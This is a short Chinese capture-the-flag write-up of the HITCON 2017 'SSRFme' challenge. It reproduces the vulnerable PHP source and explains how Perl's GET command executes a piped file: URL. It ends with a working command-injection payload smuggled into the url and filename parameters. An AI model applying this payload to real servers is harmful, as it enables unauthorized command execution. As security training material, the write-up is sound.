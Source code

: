 ## 0x01 [HITCON 2017]SSRFme

首页给了代码

```php
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
```

大致就是调用GET命令读URL并保存文件，然而escapeshellarg并不知道怎么逃逸

这个GET命令没见过

查了一下发现是perl写的

有个经典漏洞

> php中shell_exec执行GET命令，而GET命令是通过perl执行的
> perl在open当中可以执行命令，如:
> open(FD, “ls|”)或open(FD, “|ls”)
> 前提是文件需要存在

```
root@kali:~/test# GET 'file:id|'
uid=0(root) gid=0(root) groups=0(root)
```

但是好像因为版本更新了？本地没复现

然后就有了payload

```
/?url=file:bash -c /readflag|&filename=bash -c /readflag|
```

访问两次再访问对应生成的文件就能拿到flag.